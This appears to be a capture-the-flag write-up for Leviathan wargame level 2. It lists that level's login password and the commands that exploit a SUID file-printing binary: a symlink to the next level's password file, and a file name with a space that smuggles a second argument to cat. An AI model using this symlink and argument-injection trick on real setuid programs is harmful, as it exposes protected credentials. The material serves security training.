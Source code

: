 # username / password
leviathan2 / NsN1HwFoyN
# concept
* more SUID binaries :D
# method of solve
* the SUID binary in this level does a privilged file read with `/bin/cat` to read a file specfied in the command arguments
* by default, it won't read any files that belong to the `leviathan3` user, which is our target user
* we can trick the binary into reading multiple files, if we create a file will be interpreted as two files by the `cat` command, which is able to read multiple files at once
* we need to create a symbolic link to the password file
```
ln -s /etc/leviathan_pass/leviathan3 /tmp/...leviathan2/frogs.txt
```
* And we create a regular file that we can read:
```
echo "hackerfrogs" > /tmp/...leviathan2/hacker.txt
```
* And then we can create a fake file that will fool the `cat` command
```
echo "hackerfrogs" > "hacker.txt frogs.txt"
```
* Now that we have a file that we run with the `printfile` binary that will output the contents of both files and get us the password
```
~/printfile "hacker.txt frogs.txt"
```






